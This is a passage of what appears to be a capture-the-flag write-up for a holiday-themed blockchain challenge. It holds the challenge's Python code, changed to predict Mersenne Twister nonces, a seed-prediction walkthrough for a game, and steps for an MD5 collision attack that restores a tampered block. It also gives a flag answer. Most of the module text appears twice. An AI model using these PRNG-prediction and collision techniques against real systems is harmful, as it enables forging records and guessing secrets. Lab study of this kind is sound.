affixed to a record, it is the responsibility of the calling process to rename them as appropriate.
The Chain() class provides the following functions:
add\_block(\[block\_data\]) - passes a block\_data dictionary to the Block() initialization code.
This function, being "block-agnostic" simply passes the block\_data along. It is up to the Block()
initialization code to validate this data.
verify\_chain(\[public\_key\], <beginning hash>) - steps through every block in the chain and
verifies that the data in each block is of the correct type, that the block index is correct,
that the block contains the correct hash for the previous block, and that the block signature
is a valid signature based on the hash of the block data. It then hashes the full block for use
as the "previous hash" on the next block. This returns True or False. (If False, it prints
information about what, specific, issues were found and the block that triggered the issue.)
Note: If you're working with a portion of the block chain that does not begin with a genesis
block, you'll need to provide a value for the previous block's hash for this function to
work.
save\_a\_block(index, <filename>) - saves the block at index to the filename provided, or to
"block.dat" if no filename is given.
save\_chain(<filename>) - saves the chain to the filename provided, or to "blockchain.dat" if
no filename is given.
load\_chain(<filename>) - loads a chain from the filename provided, or from "blockchain.dat" if
no filename is given. This returns the count of blocks loaded. This DOES NOT verify that the
data loaded is a valid blockchain. It is recommended to call verify\_chain() immediately after
loading a new chain.
An overview of how we process the Official Naughty/Nice Blockchain:
There are approximately 7.8 billion people and magical beings on Earth, and each one is tracked
24 hours a day throughout the year by a fleet of Elves-On-The-Shelves. While those elves are
clearly visible during the Holiday season, don't be fooled into believing that we're only tracking
Naughty/Niceness at that time. On average, each of the billions of subjects that we monitor are
performing some sort of Naughty or Nice activity that rises to the level of being scored on the
blockchain around 2.1 times per week. Keeping track of all of that activity on a single blockchain
would be incredibly processing intensive (that would be ~1^12 blocks/year, or 32,000 blocks/second),
so we've broken our record-keeping into 1,000 different blockchains. If you do the math, you'll find
that each of the blockchains is now responsible for between 1,500 and 2000 blocks per minute, which
is a reasonable load. A separate database keeps track of which Personal ID (pid) is assigned to each
of the blockchains.
Throughout the year, we periodically run each of the chains to determine who is the best (and worst)
of our subjects. While only the final Holiday run is used to determine who is getting something
good in their stockings and who is getting a lump of coal, it's always interesting to see a listing
of the Nicest and Naughtiest folks out there.
Please note: Wagering on the results of the Official Naughty/Nice Blockchain is STRICTLY PROHIBITED.
If you intend to use your access to the Official Naughty/Nice Blockchain code to facilitate any sort
of gambling, you will be racking up a whole bunch of Naughtiness points. YOU HAVE BEEN WARNED! (I'm
looking at you, Alabaster Snowball...)
For this reason, we have not provided any code that will perform a computation of Naughty/Nice
points. Additionally, for privacy reasons, there is also no code to pull the records associated
with specific individuals from this list. While the creation of that code would not be difficult,
you are honor-bound to use your access to this list for only good and noble purposes.
Signing Keys - Information
We have provided you with an example private key that you can use when generating your own blockchains
for test purposes. This private key (which also contains the public key information) is called
private.pem.
Additionally, we have provided you with a copy of the public key used to verify the Official
Naughty/Nice Blockchain. This is the public key component of the private key used by the Official
Santa Signature System (OS3) to sign blocks on the Official Naughty/Nice Blockchain. This key
is contained in the file official\_public.pem.
'''
import random
from Crypto.Hash import MD5, SHA256
from Crypto.PublicKey import RSA
from Crypto.Signature import PKCS1\_v1\_5
from base64 import b64encode, b64decode
import binascii
import time
import itertools
from mt19937predictor import MT19937Predictor
genesis\_block\_fake\_hash = '00000000000000000000000000000000'
data\_types = {1:'plaintext', 2:'jpeg image', 3:'bmp image', 4:'gif image', 5:'PDF', 6:'Word', 7:'PowerPoint', 8:'Excel', 9:'tiff image', 10:'MP4 video', 11:'MOV video', 12:'WMV video', 13:'FLV video', 14:'AVI video', 255:'Binary blob'}
data\_extension = {1:'txt', 2:'jpg', 3:'bmp', 4:'gif', 5:'pdf', 6:'docx', 7:'pptx', 8:'xlsx', 9:'tiff', 10:'mp4', 11:'mov', 12:'wmv', 13:'flv', 14:'avi', 255:'bin'}
Naughty = 0
Nice = 1
class Block():
def \_\_init\_\_(self, index=None, block\_data=None, previous\_hash=None, load=False, genesis=False):
if(genesis == True):
return None
else:
self.data = \[\]
if(load == False):
if all(p is not None for p in \[index, block\_data\['documents'\], block\_data\['pid'\], block\_data\['rid'\], block\_data\['score'\], block\_data\['sign'\], previous\_hash\]):
self.index = index
if self.index == 0:
self.nonce = 0 # genesis block
else:
self.nonce = random.randrange(0xFFFFFFFFFFFFFFFF)
self.data = block\_data\['documents'\]
self.previous\_hash = previous\_hash
self.doc\_count = len(self.data)
self.pid = block\_data\['pid'\]
self.rid = block\_data\['rid'\]
self.score = block\_data\['score'\]
self.sign = block\_data\['sign'\]
now = time.gmtime()
self.month = now.tm\_mon
self.day = now.tm\_mday
self.hour = now.tm\_hour
self.minute = now.tm\_min
self.second = now.tm\_sec
self.hash, self.sig = self.hash\_n\_sign()
else:
return None
def \_\_eq\_\_(self, other):
if isinstance(other, self.\_\_class\_\_):
return self.\_\_dict\_\_ == other.\_\_dict\_\_
else:
return False
def \_\_repr\_\_(self):
s = 'Chain Index: %i\\n' % (self.index)
s += ' Nonce: %s\\n' % ('%016.016x' % (self.nonce))
s += ' PID: %s\\n' % ('%016.016x' % (self.pid))
s += ' RID: %s\\n' % ('%016.016x' % (self.rid))
s += ' Document Count: %1.1i\\n' % (self.doc\_count)
s += ' Score: %s\\n' % ('%08.08x (%i)' % (self.score, self.score))
n\_n = 'Naughty'
if self.sign > 0:
n\_n = 'Nice'
s += ' Sign: %1.1i (%s)\\n' % (self.sign, n\_n)
c = 1
for d in self.data:
s += ' Data item: %i\\n' % (c)
s += ' Data Type: %s (%s)\\n' % ('%02.02x' % (d\['type'\]), data\_types\[d\['type'\]\])
s += ' Data Length: %s\\n' % ('%08.08x' % (d\['length'\]))
s += ' Data: %s\\n' % (binascii.hexlify(d\['data'\]))
c += 1
s += ' Date: %s/%s\\n' % ('%02.02i' % (self.month), '%02.02i' % (self.day))
s += ' Time: %s:%s:%s\\n' % ('%02.02i' % (self.hour), '%02.02i' % (self.minute), '%02.02i' % (self.second))
s += ' PreviousHash: %s\\n' % (self.previous\_hash)
s += ' Data Hash to Sign: %s\\n' % (self.hash)
s += ' Signature: %s\\n' % (self.sig)
return(s)
def full\_hash(self):
hash\_obj = MD5.new()
hash\_obj.update(self.block\_data\_signed())
return hash\_obj.hexdigest()
def hash\_n\_sign(self):
hash\_obj = MD5.new()
hash\_obj.update(self.block\_data())
signer = PKCS1\_v1\_5.new(private\_key)
return (hash\_obj.hexdigest(), b64encode(signer.sign(hash\_obj)))
def block\_data(self):
s = (str('%016.016x' % (self.index)).encode('utf-8'))
s += (str('%016.016x' % (self.nonce)).encode('utf-8'))
s += (str('%016.016x' % (self.pid)).encode('utf-8'))
s += (str('%016.016x' % (self.rid)).encode('utf-8'))
s += (str('%1.1i' % (self.doc\_count)).encode('utf-8'))
s += (str(('%08.08x' % (self.score))).encode('utf-8'))
s += (str('%1.1i' % (self.sign)).encode('utf-8'))
for d in self.data:
s += (str('%02.02x' % d\['type'\]).encode('utf-8'))
s += (str('%08.08x' % d\['length'\]).encode('utf-8'))
s += d\['data'\]
s += (str('%02.02i' % (self.month)).encode('utf-8'))
s += (str('%02.02i' % (self.day)).encode('utf-8'))
s += (str('%02.02i' % (self.hour)).encode('utf-8'))
s += (str('%02.02i' % (self.minute)).encode('utf-8'))
s += (str('%02.02i' % (self.second)).encode('utf-8'))
s += (str(self.previous\_hash).encode('utf-8'))
return(s)
def block\_data\_signed(self):
s = self.block\_data()
s += bytes(self.hash.encode('utf-8'))
s += self.sig
return(s)
def load\_a\_block(self, fh):
self.index = int(fh.read(16), 16)
self.nonce = int(fh.read(16), 16)
self.pid = int(fh.read(16), 16)
self.rid = int(fh.read(16), 16)
self.doc\_count = int(fh.read(1), 10)
self.score = int(fh.read(8), 16)
self.sign = int(fh.read(1), 10)
count = self.doc\_count
while(count > 0):
l\_data = {}
l\_data\['type'\] = int(fh.read(2),16)
l\_data\['length'\] = int(fh.read(8), 16)
l\_data\['data'\] = fh.read(l\_data\['length'\])
self.data.append(l\_data)
count -= 1
self.month = int(fh.read(2))
self.day = int(fh.read(2))
self.hour = int(fh.read(2))
self.minute = int(fh.read(2))
self.second = int(fh.read(2))
self.previous\_hash = str(fh.read(32))\[2:-1\]
self.hash = str(fh.read(32))\[2:-1\]
self.sig = fh.read(344)
return self
def create\_genesis\_block(self):
block\_data = {}
documents = \[\]
doc = {}
doc\['data'\] = bytes('Genesis Block'.encode('utf-8'))
doc\['type'\] = 1
doc\['length'\] = len(doc\['data'\])
documents.append(doc)
block\_data\['documents'\] = documents
block\_data\['pid'\] = 0
block\_data\['rid'\] = 0
block\_data\['score'\] = 0
block\_data\['sign'\] = Nice
b = Block(0, block\_data, genesis\_block\_fake\_hash)
return b
def verify\_types(self): # check data types of all info in a block
rv = True
instances = \[self.index, self.nonce, self.pid, self.rid, self.month, self.day, self.hour, self.minute, self.second, self.previous\_hash, self.score, self.sign\]
types = \[int, int, int, int, int, int, int, int, int, str, int, int\]
if not sum(map(lambda inst\_, type\_: isinstance(inst\_, type\_), instances, types)) == len(instances):
rv = False
for d in self.data:
if not isinstance(d\['type'\], int):
rv = False
if not isinstance(d\['length'\], int):
rv = False
if not isinstance(d\['data'\], bytes):
rv = False
return rv
def dump\_doc(self, doc\_no):
filename = '%s.%s' % (str(self.index), data\_extension\[self.data\[doc\_no - 1\]\['type'\]\])
with open(filename, 'wb') as fh:
d = self.data\[doc\_no - 1\]\['data'\]
fh.write(d)
print('Document dumped as: %s' % (filename))
class Chain():
nonce\_list = \[\]
index = 0
initial\_index = 0
last\_hash\_value = ''
def \_\_init\_\_(self, load=False, filename=None):
if not load:
self.blocks = \[Block(genesis=True).create\_genesis\_block()\]
self.last\_hash\_value = self.blocks\[0\].full\_hash()
else:
self.blocks = \[\]
self.load\_chain(filename)
self.index = self.blocks\[-1\].index
self.initial\_index = self.blocks\[0\].index
def \_\_eq\_\_(self, other):
if isinstance(other, self.\_\_class\_\_):
return self.\_\_dict\_\_ == other.\_\_dict\_\_
else:
return False
def add\_block(self, block\_data):
self.index += 1
b = Block(self.index, block\_data, self.last\_hash\_value)
self.blocks.append(b)
self.last\_hash\_value = b.full\_hash()
def verify\_chain(self, publickey, previous\_hash=None):
flag = True
# unless we're explicitly told what the initial last hash should be, we assume that
# the initial block will be the genesis block and will have a fixed previous\_hash
if previous\_hash is None:
previous\_hash = genesis\_block\_fake\_hash
for i in range(0, len(self.blocks)): # assume Genesis block integrity
block\_no = self.blocks\[i\].index
if not self.blocks\[i\].verify\_types():
flag = False
print(f'\\n\*\*\* WARNING \*\*\* Wrong data type(s) at block {block\_no}.')
if self.blocks\[i\].index != i + self.initial\_index:
flag = False
print(f'\\n\*\*\* WARNING \*\*\* Wrong block index at what should be block {i + self.initial\_index}: {block\_no}.')
if self.blocks\[i\].previous\_hash != previous\_hash:
flag = False
print(f'\\n\*\*\* WARNING \*\*\* Wrong previous hash at block {block\_no}.')
hash\_obj = MD5.new()
hash\_obj.update(self.blocks\[i\].block\_data())
signer = PKCS1\_v1\_5.new(publickey)
if signer.verify(hash\_obj, b64decode(self.blocks\[i\].sig)) is False:
flag = False
print(f'\\n\*\*\* WARNING \*\*\* Bad signature at block {block\_no}.')
if flag == False:
print(f'\\n\*\*\* WARNING \*\*\* Blockchain invalid from block {block\_no} onward.\\n')
return False
previous\_hash = self.blocks\[i\].full\_hash()
return True
def save\_a\_block(self, index, filename=None):
if filename is None:
filename = 'block.dat'
with open(filename, 'wb') as fh:
fh.write(self.blocks\[index\].block\_data\_signed())
def save\_chain(self, filename=None):
if filename is None:
filname = 'blockchain.dat'
with open(filename, 'wb') as fh:
i = 0
while(i < len(self.blocks)):
fh.write(self.blocks\[i\].block\_data\_signed())
i += 1
def load\_chain(self, filename=None):
count = 0
if filename is None:
filename = 'blockchain.dat'
with open(filename, 'rb') as fh:
while(1):
try:
self.blocks.append(Block(load=True).load\_a\_block(fh))
self.index = self.blocks\[-1\].index
count += 1
except ValueError:
return count
if \_\_name\_\_ == '\_\_main\_\_':
with open('private.pem', 'rb') as fh:
private\_key = RSA.importKey(fh.read())
public\_key = private\_key.publickey()
c1 = Chain()
for i in range(9):
block\_data = {}
documents = \[\]
doc = {}
doc\['data'\] = bytes(('This is block %i of the naughty/nice blockchain.' % (i)).encode('utf-8'))
doc\['type'\] = 1
doc\['length'\] = len(doc\['data'\])
documents.append(doc)
block\_data\['documents'\] = documents
block\_data\['pid'\] = 123 # this is the pid, or "person id," that the block is about
block\_data\['rid'\] = 456 # this is the rid, or "reporter id," of the reporting elf
block\_data\['score'\] = 100 # this is the Naughty/Nice score of the report
block\_data\['sign'\] = Nice # this indicates whether the report is about naughty or nice behavior
c1.add\_block(block\_data)
print(c1.blocks\[3\])
print('C1: Block chain verify: %s' % (c1.verify\_chain(public\_key)))
#Note: This is how you would load and verify a blockchain contained in a file called blockchain.dat
#
with open('official\_public.pem', 'rb') as fh:
official\_public\_key = RSA.importKey(fh.read())
c2 = Chain(load=True, filename='blockchain.dat')
print('C2: Block chain verify: %s' % (c2.verify\_chain(official\_public\_key)))
print(c2.blocks\[0\])
c2.blocks\[0\].dump\_doc(1)
predictor = MT19937Predictor()
nonce\_list= \[\]
# Adding all the nonces of all the blocks in a list
for i in range(len(c2.blocks)):
nonce\_list.append(c2.blocks\[i\].nonce)
# reeversing the list
nonce\_list.reverse()
# get the first 625 nonces
last\_625\_block\_nonce = list(itertools.islice(nonce\_list,625))
# reverse the list so we get the last 625 nonces
last\_625\_block\_nonce.reverse()
# Setting the data for 625 nonces to the MT19937Predictor
for nonce in last\_625\_block\_nonce:
predictor.setrandbits(nonce, 64)
# calcutated nonce and added for block 12997 \[lietarally ran the code at this point to get the nonce for block 12997 using predictor.getrandbits()\]
predictor.setrandbits(13205885317093879758,64)
# calculated nonce and added for block 12998 \[lietarally ran the code at this point to get the nonce for block 12997 using predictor.getrandbits()\]
predictor.setrandbits(109892600914328301,64)
# calculated nonce and added for block 12999 \[lietarally ran the code at this point to get the nonce for block 12997 using predictor.getrandbits()\]
predictor.setrandbits(9533956617156166628,64)
# Get the nonce for block 13000
print(predictor.getrandbits(64))
The snowball fight :
We need to solve this challenge to get more hints for objective 11b)
Welcome to Snowball Fight! You and an opponent each have five snow forts, but you can't see the others' layout. Start lobbing snowballs back and forth. Be the first to hit everything on your opponent's side!
Note: On easier levels, you may pick your own name. On the Hard and Impossible level, we will pick for you. That's just how things work around here!
What's more, on Impossible, we won't even SHOW you your name! In fact, just to make sure things are super random, we'll throw away hundreds of random names before starting!
High level Approach :
- Open the "Impossible" game.
- In the impossible, get seeds, predict seed. See below ("How to get the random seeds and calculate the next seed").
- Open the game in a new window https://snowball2.kringlecastle.com/.
- In this window, open the "easy" game and use the seed predicted in step 2).
- Win the easy game. Record the moves.
- Go back to the "impossible" window and use the same moves.
- Win the 'Impossible' game.
Process details :
You will see a number of seeds in the below URL response
https://snowball2.kringlecastle.com/game
They are exactly 624 seeds indicating the next seed could be predicted using the Mersenne Twister algorithm.
So, we can use the python script M19937 to predict the next seed.

624 seeds in view source
Keep all the 624 seeds in the data.txt.

Create a new bash script "predict-next-seed.sh" which would take the data in the data.txt, apply mt19937 on it and predict next set of numbers in predicted.txt
!/bin/bash
cat data.txt | mt19937predict > predicted.txt
Run the bash script for a very small time (0.1 sec).
timeout 0.1s ./predict-next-seed.sh
The first entry in the output predicted.txt is the next seed.

The predicted next seed after 624 seeds is 476691297
Login using the username 476691297 in an easy game.
Win the easy game. Record the moves.
Use the same moves made in the easy window in the impossible window.


New hints unlocked!!


Objective 11b): Naughty/Nice List with Blockchain Investigation Part 2
Answer: fff054f33c2134e0230efb29dad515064ac97aa8c68d33c58c01213a0d408afb
High level approach :
- Change naughty_nice.py:
- Get Jake’s Block from the chain and save it as a binary (block.dat)
- Extract all the docs from the Jake’s block
- Determine and extract the original naughty document.
This is the document Jake modified to put nice list on it. – This would be the 1st byte on the Jake’s block which he changed.
ref: https://speakerdeck.com/ange/colltris?slide=194 - Determine the flag for naughty/nice.
This is the flag which Jake changed from naughty to nice – this would-be 2nd byte on the Jake’s block which he changed. - Determine 3rd and 4th byte which were changed by Jake
ref: https://speakerdeck.com/ange/colltris?slide=109 - Make changes on 1st, 2nd, 3rd and 4th byte on Jake’s block making sure the MD5 hash does not change
- Save the original block restored from Jack’s block and save as block_restored.dat file.
- Calculate the SHA256 of the blockchain_restored.dat.
Process :
Changes to naughty_nice.py:
Added a function named full_hash_SHA256() which will calculate the SHA256 hash of the block. Screenshot 1 below.
Added code to calculate the SHA256 hash for each block and If Its equal to the 58a3b9335a6ceb0234c12d35a0564c4e f0e90152d0eb2ce2082383b38028a90f, it saves the block to a new file named block.dat.
It also extracts all the documents from the Jack’s block - 129459.pdf and 129459.bin Screenshot 2 below.

Screenshot 1

Screenshot 2
The whole naughty_nice.py
#!/usr/bin/env python3
'''
So, you want to work with the naughty/nice blockchain?
Welcome!
This python module is your first step in that process. It will introduce you to how the Naughty/Nice
blockchain is structured and how we at the North Pole use blockchain technology. The North Pole
has been using blockchain technology since Santa first invented it back in the 1960's. (Jolly
prankster that he is, Santa posted a white paper on the Internet that he wrote under a pseudonym
describing a non-Naughty/Nice application of blockchains a dozen or so years back. It caused quite
a stir...)
Important note: This module will NOT allow you to add content to the Official Naughty/Nice Blockchain!
That can only be done through the Official Naughty/Nice Website, which passes new blocks to the Official
Santa Signature System (OS3) that applies a digital signature to the content of each block before it is
added to the chain. Only blocks whose contents have been digitally signed by that system are placed on
the Naughty/Nice blockchain.
Note: If you're authorized to use the Official Naughty/Nice website, you will have been given a login and
password for that site after completing your training as a part of Elf University's "Assessing and
Evaluating Human Behavior for Naughty/Niceness" Curriculum.
This code is used to introduce how blocks/chains are created and allow you to view and/or validate
portions (or the entirety) of the Official Naughty/Nice Blockchain.
A blockchain, while a part of the whole cryptocurrency "fad" that a certain pseudonym-packing North Pole
resident appears to have begun, are certainly not limited to that use. A blockchain can be used anywhere
that a record of information or transactions need to be maintained in a way that cannot be altered. And
really, what information is more important (and necessarily unalterable) than acts of Naughty/Niceness?
A blockchain works by linking each record together with the previous record. Each block's data contains
a cryptographic hash of the previous block's data. Because a block cannot be altered without altering
the cryptographic hash of its contents, any alteration of the data within a block will be immediately
evident, because every following block will no longer be valid.
In addition to this built-in property of a blockchain, the Official Naughty/Nice Blockchain has a few
other safeguards. The cryptographic hash of each block is signed using the Official Santa Signature
System (OS3). Currently, the Official Naughty/Nice Blockchain uses MD5 as its hashing algorithm, but
plans are in place to move to SHA256 in 2021. This update is part of a phased process to modernize
the blockchain code. In 2019, the entire blockchain system was ported from the original COBOL code to
Python3. Because of concerns about hash collisions in MD5, in the new Python3 code, a 64-bit random
"nonce" was added to the beginning of each block at the time of creation.
This module represents a portion of the most current blockchain codebase. It consists of two classes,
one for the creation of blocks, called Block(), and one for the creation, examination, and verification of
chains of blocks, called Chain().
The following is an overview of the functionality provided by these classes:
The Chain() class is where most blockchain work is performed. It is designed to be as "block-agnostic"
as possible, so it can be used with blocks that hold different types of data. To use a different type
of block, you simply replace (or subclass) the Block() class. For this to work, there are several
functions that MUST be supplied by the Block() class. Let's take a look at those.
The Block() class MUST supply the following functions, used by the Chain() class:
create\_genesis\_block() - This creates a very special block used at the beginning of the blockchain,
and known as the "genesis" block. Because it has no previous block to reference it is, by definition,
always considered valid. This block uses an agreed-upon, fake previous hash value.
verify\_types() - Because the Chain() class is block-agnostic, it needs the Block() class to validate
that a block contains valid data. This function returns True or False.
block\_data() - a function that returns a representation of all of the data in the block that is to
be hashed and signed. The data is returned as a Python3 bytes object.
full\_block\_data() - a function that returns a representation of the entire block, including any
hashes and signatures. A hash of this data is what is used as the "previous hash" value in the
subsequent block. This data is returned as a Python3 bytes object. This function is also used
when saving either the entire blockchain to a file, or a single block to a file
load\_a\_block(\[filehandle\]) - this function takes a filehandle and returns a block at a time for
addition to the block chain. This function DOES NOT verify blocks. This function throws a
Value\_Error exception when it either encounters the end of the file or unparsable data.
The Naughty/Nice Block() class also defines a utility function:
dump\_doc(\[document number\]) - this will dump the indicated supporting document to a file named
as <block\_index>.<data\_type\_extension>. Note: this function will overwrite any existing file
with that name, so if there are multiple documents (there can be up to 9) of the same type
affixed to a record, it is the responsibility of the calling process to rename them as appropriate.
The Chain() class provides the following functions:
add\_block(\[block\_data\]) - passes a block\_data dictionary to the Block() initialization code.
This function, being "block-agnostic" simply passes the block\_data along. It is up to the Block()
initialization code to validate this data.
verify\_chain(\[public\_key\], <beginning hash>) - steps through every block in the chain and
verifies that the data in each block is of the correct type, that the block index is correct,
that the block contains the correct hash for the previous block, and that the block signature
is a valid signature based on the hash of the block data. It then hashes the full block for use
as the "previous hash" on the next block. This returns True or False. (If False, it prints
information about what, specific, issues were found and the block that triggered the issue.)
Note: If you're working with a portion of the block chain that does not begin with a genesis
block, you'll need to provide a value for the previous block's hash for this function to
work.
save\_a\_block(index, <filename>) - saves the block at index to the filename provided, or to
"block.dat" if no filename is given.
save\_chain(<filename>) - saves the chain to the filename provided, or to "blockchain.dat" if
no filename is given.
load\_chain(<filename>) - loads a chain from the filename provided, or from "blockchain.dat" if
no filename is given. This returns the count of blocks loaded. This DOES NOT verify that the
data loaded is a valid blockchain. It is recommended to call verify\_chain() immediately after
loading a new chain.
An overview of how we process the Official Naughty/Nice Blockchain:
There are approximately 7.8 billion people and magical beings on Earth, and each one is tracked
24 hours a day throughout the year by a fleet of Elves-On-The-Shelves. While those elves are
clearly visible during the Holiday season, don't be fooled into believing that we're only tracking
Naughty/Niceness at that time. On average, each of the billions of subjects that we monitor are
performing some sort of Naughty or Nice activity that rises to the level of being scored on the
blockchain around 2.1 times per week. Keeping track of all of that activity on a single blockchain
would be incredibly processing intensive (that would be ~1^12 blocks/year, or 32,000 blocks/second),
so we've broken our record-keeping into 1,000 different blockchains. If you do the math, you'll find
that each of the blockchains is now responsible for between 1,500 and 2000 blocks per minute, which
is a reasonable load. A separate database keeps track of which Personal ID (pid) is assigned to each
of the blockchains.
Throughout the year, we periodically run each of the chains to determine who is the best (and worst)
of our subjects. While only the final Holiday run is used to determine who is getting something
good in their stockings and who is getting a lump of coal, it's always interesting to see a listing
of the Nicest and Naughtiest folks out there.
Please note: Wagering on the results of the Official Naughty/Nice Blockchain is STRICTLY PROHIBITED.
If you intend to use your access to the Official Naughty/Nice Blockchain code to facilitate any sort
of gambling, you will be racking up a whole bunch of Naughtiness points. YOU HAVE BEEN WARNED! (I'm
looking at you, Alabaster Snowball...)
For this reason, we have not provided any code that will perform a computation of Naughty/Nice
points. Additionally, for privacy reasons, there is also no code to pull the records associated
with specific individuals from this list. While the creation of that code would not be difficult,
you are honor-bound to use your access to this list for only good and noble purposes.
Signing Keys - Information
We have provided you with an example private key that you can use when generating your own blockchains
for test purposes. This private key (which also contains the public key information) is called
private.pem.
Additionally, we have provided you with a copy of the public key used to verify the Official
Naughty/Nice Blockchain. This is the public key component of the private key used by the Official
Santa Signature System (OS3) to sign blocks on the Official Naughty/Nice Blockchain. This key
is contained in the file official\_public.pem.
'''
import random
from Crypto.Hash import MD5, SHA256
from Crypto.PublicKey import RSA
from Crypto.Signature import PKCS1\_v1\_5
from base64 import b64encode, b64decode
import binascii
import time
import itertools
from mt19937predictor import MT19937Predictor
genesis\_block\_fake\_hash = '00000000000000000000000000000000'
data\_types = {1:'plaintext', 2:'jpeg image', 3:'bmp image', 4:'gif image', 5:'PDF', 6:'Word', 7:'PowerPoint', 8:'Excel', 9:'tiff image', 10:'MP4 video', 11:'MOV video', 12:'WMV video', 13:'FLV video', 14:'AVI video', 255:'Binary blob'}
data\_extension = {1:'txt', 2:'jpg', 3:'bmp', 4:'gif', 5:'pdf', 6:'docx', 7:'pptx', 8:'xlsx', 9:'tiff', 10:'mp4', 11:'mov', 12:'wmv', 13:'flv', 14:'avi', 255:'bin'}
Naughty = 0
Nice = 1
class Block():
def \_\_init\_\_(self, index=None, block\_data=None, previous\_hash=None, load=False, genesis=False):
if(genesis == True):
return None
else:
self.data = \[\]
if(load == False):
if all(p is not None for p in \[index, block\_data\['documents'\], block\_data\['pid'\], block\_data\['rid'\], block\_data\['score'\], block\_data\['sign'\], previous\_hash\]):
self.index = index
if self.index == 0:
self.nonce = 0 # genesis block
else:
self.nonce = random.randrange(0xFFFFFFFFFFFFFFFF)
self.data = block\_data\['documents'\]
self.previous\_hash = previous\_hash
self.doc\_count = len(self.data)
self.pid = block\_data\['pid'\]
self.rid = block\_data\['rid'\]
self.score = block\_data\['score'\]
self.sign = block\_data\['sign'\]
now = time.gmtime()
self.month = now.tm\_mon
self.day = now.tm\_mday
self.hour = now.tm\_hour
self.minute = now.tm\_min
self.second = now.tm\_sec
self.hash, self.sig = self.hash\_n\_sign()
else:
return None
def \_\_eq\_\_(self, other):
if isinstance(other, self.\_\_class\_\_):
return self.\_\_dict\_\_ == other.\_\_dict\_\_
else:
return False
def \_\_repr\_\_(self):
s = 'Chain Index: %i\\n' % (self.index)
s += ' Nonce: %s\\n' % ('%016.016x' % (self.nonce))
s += ' PID: %s\\n' % ('%016.016x' % (self.pid))
s += ' RID: %s\\n' % ('%016.016x' % (self.rid))
s += ' Document Count: %1.1i\\n' % (self.doc\_count)
s += ' Score: %s\\n' % ('%08.08x (%i)' % (self.score, self.score))
n\_n = 'Naughty'
if self.sign > 0:
n\_n = 'Nice'
s += ' Sign: %1.1i (%s)\\n' % (self.sign, n\_n)
c = 1
for d in self.data:
s += ' Data item: %i\\n' % (c)
s += ' Data Type: %s (%s)\\n' % ('%02.02x' % (d\['type'\]), data\_types\[d\['type'\]\])
s += ' Data Length: %s\\n' % ('%08.08x' % (d\['length'\]))
s += ' Data: %s\\n' % (binascii.hexlify(d\['data'\]))
c += 1
s += ' Date: %s/%s\\n' % ('%02.02i' % (self.month), '%02.02i' % (self.day))
s += ' Time: %s:%s:%s\\n' % ('%02.02i' % (self.hour), '%02.02i' % (self.minute), '%02.02i' % (self.second))
s += ' PreviousHash: %s\\n' % (self.previous\_hash)
s += ' Data Hash to Sign: %s\\n' % (self.hash)
s += ' Signature: %s\\n' % (self.sig)
return(s)
def full\_hash(self):
hash\_obj = MD5.new()
hash\_obj.update(self.block\_data\_signed())
return hash\_obj.hexdigest()
def hash\_n\_sign(self):
hash\_obj = MD5.new()
hash\_obj.update(self.block\_data())
signer = PKCS1\_v1\_5.new(private\_key)
return (hash\_obj.hexdigest(), b64encode(signer.sign(hash\_obj)))
def block\_data(self):
s = (str('%016.016x' % (self.index)).encode('utf-8'))
s += (str('%016.016x' % (self.nonce)).encode('utf-8'))
s += (str('%016.016x' % (self.pid)).encode('utf-8'))
s += (str('%016.016x' % (self.rid)).encode('utf-8'))
s += (str('%1.1i' % (self.doc\_count)).encode('utf-8'))
s += (str(('%08.08x' % (self.score))).encode('utf-8'))
s += (str('%1.1i' % (self.sign)).encode('utf-8'))
for d in self.data:
s += (str('%02.02x' % d\['type'\]).encode('utf-8'))
s += (str('%08.08x' % d\['length'\]).encode('utf-8'))
s += d\['data'\]
s += (str('%02.02i' % (self.month)).encode('utf-8'))
s += (str('%02.02i' % (self.day)).encode('utf-8'))
s += (str('%02.02i' % (self.hour)).encode('utf-8'))
s += (str('%02.02i' % (self.minute)).encode('utf-8'))
s += (str('%02.02i' % (self.second)).encode('utf-8'))
s += (str(self.previous\_hash).encode('utf-8'))
return(s)
def block\_data\_signed(self):
s = self.block\_data()
s += bytes(self.hash.encode('utf-8'))
s += self.sig
return(s)
def load\_a\_block(self, fh):
self.index = int(fh.read(16), 16)
self.nonce = int(fh.read(16), 16)
self.pid = int(fh.read(16), 16)
self.rid = int(fh.read(16), 16)
self.doc\_count = int(fh.read(1), 10)
self.score = int(fh.read(8), 16)
self.sign = int(fh.read(1), 10)
count = self.doc\_count
while(count > 0):
l\_data = {}
l\_data\['type'\] = int(fh.read(2),16)
l\_data\['length'\] = int(fh.read(8), 16)
l\_data\['data'\] = fh.read(l\_data\['length'\])
self.data.append(l\_data)
count -= 1
self.month = int(fh.read(2))
self.day = int(fh.read(2))
self.hour = int(fh.read(2))
self.minute = int(fh.read(2))
self.second = int(fh.read(2))
self.previous\_hash = str(fh.read(32))\[2:-1\]
self.hash = str(fh.read(32))\[2:-1\]
self.sig = fh.read(344)
return self
def create\_genesis\_block(self):
block\_data = {}
documents = \[\]
doc = {}
doc\['data'\] = bytes('Genesis Block'.encode('utf-8'))
doc\['type'\] = 1
doc\['length'\] = len(doc\['data'\])
documents.append(doc)
block\_data\['documents'\] = documents
block\_data\['pid'\] = 0
block\_data\['rid'\] = 0
block\_data\['score'\] = 0
block\_data\['sign'\] = Nice
b = Block(0, block\_data, genesis\_block\_fake\_hash)
return b
def verify\_types(self): # check data types of all info in a block
rv = True
instances = \[self.index, self.nonce, self.pid, self.rid, self.month, self.day, self.hour, self.minute, self.second, self.previous\_hash, self.score, self.sign\]
types = \[int, int, int, int, int, int, int, int, int, str, int, int\]
if not sum(map(lambda inst\_, type\_: isinstance(inst\_, type\_), instances, types)) == len(instances):
rv = False
for d in self.data:
if not isinstance(d\['type'\], int):
rv = False
if not isinstance(d\['length'\], int):
rv = False
if not isinstance(d\['data'\], bytes):
rv = False
return rv
def dump\_doc(self, doc\_no):
filename = '%s.%s' % (str(self.index), data\_extension\[self.data\[doc\_no - 1\]\['type'\]\])
with open(filename, 'wb') as fh:
d = self.data\[doc\_no - 1\]\['data'\]
fh.write(d)
print('Document dumped as: %s' % (filename))
class Chain():
nonce\_list = \[\]
index = 0
initial\_index = 0
last\_hash\_value = ''
def \_\_init\_\_(self, load=False, filename=None):
if not load:
self.blocks = \[Block(genesis=True).create\_genesis\_block()\]
self.last\_hash\_value = self.blocks\[0\].full\_hash()
else:
self.blocks = \[\]
self.load\_chain(filename)
self.index = self.blocks\[-1\].index
self.initial\_index = self.blocks\[0\].index
def \_\_eq\_\_(self, other):
if isinstance(other, self.\_\_class\_\_):
return self.\_\_dict\_\_ == other.\_\_dict\_\_
else:
